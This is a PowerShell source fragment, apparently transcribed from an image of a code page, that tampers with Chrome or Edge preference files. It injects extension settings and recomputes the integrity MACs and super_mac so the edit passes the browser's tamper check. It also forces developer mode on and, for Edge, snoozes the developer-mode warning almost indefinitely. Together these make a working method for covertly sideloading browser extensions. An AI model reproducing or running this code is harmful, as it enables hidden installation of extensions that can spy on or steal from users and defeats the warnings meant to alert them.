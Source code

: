 ```
                    if ($JsonData.extensions.$SettingsKey | Get-Member -Name $ExtensionName -MemberType Property -ErrorAction SilentlyContinue)
                    {
                        $JsonData.extensions.$SettingsKey.$ExtensionName = $ExtensionSettings
                    }
                    else
                    {
                        $JsonData.extensions.$SettingsKey | Add-Member -MemberType NoteProperty -Name $ExtensionName -Value $ExtensionSettings -Force
                    }
                    
                    # Update MAC for extension settings
                    if ($JsonData.protection.macs.extensions.$SettingsKey | Get-Member -Name $ExtensionName -MemberType Property -ErrorAction SilentlyContinue)
                    {
                        $JsonData.protection.macs.extensions.$SettingsKey.$ExtensionName = 
                            Calculate-MAC $CryptoKey ($UserSID + "extensions." + $SettingsKey + "." + $ExtensionName + ($ExtensionSettings | ConvertTo-Json -Compress -Depth 100))
                    }
                    else
                    {
                        $JsonData.protection.macs.extensions.$SettingsKey | Add-Member -MemberType NoteProperty -Name $ExtensionName -Force -Value (
                            Calculate-MAC $CryptoKey ($UserSID + "extensions." + $SettingsKey + "." + $ExtensionName + ($ExtensionSettings | ConvertTo-Json -Compress -Depth 100))
                    }

                    # Force enable developer mode
                    if (-not $JsonData.extensions.ui)
                    {
                        $JsonData.extensions | Add-Member -MemberType NoteProperty -Name "ui" -Value @{ "developer_mode" = $true } -Force
                    }
                    else
                    {
                        $JsonData.extensions.ui = @{ "developer_mode" = $true }
                    }

                    # Update MACs for security validation
                    $JsonData.protection.macs.extensions.ui.developer_mode = 
                        Calculate-MAC $CryptoKey ($UserSID + "extensions.ui.developer_modetrue")
                    $JsonData.protection.super_mac = 
                        Calculate-MAC $CryptoKey ($UserSID + ($JsonData.protection.macs | ConvertTo-Json -Compress -Depth 100))
                    
                    # Save changes
                    $JsonContent = $JsonData | ConvertTo-Json -Compress -Depth 100
                    $JsonContent | Out-File -FilePath $SecurePreferencesPath -Encoding UTF8
                    
                    # Additional MSEdge specific modifications
                    if ($BrowserName -eq "msedge")
                    {
                        $PreferencesPath = "$BrowserProfilesDirectory\$($ProfileDirectory.Name)\Preferences"
                        $JsonData = Get-Content -Raw -Path $PreferencesPath -Encoding UTF8 | ConvertFrom-Json
                        $JsonData.extensions = @{ 
                            ui = @{ 
                                dev_mode_warning_snooze_end_time = "99999999999999999" 
                            } 
                        }
                        $JsonContent = $JsonData | ConvertTo-Json -Compress -Depth 100
                        $JsonContent | Out-File -FilePath $PreferencesPath -Encoding UTF8
```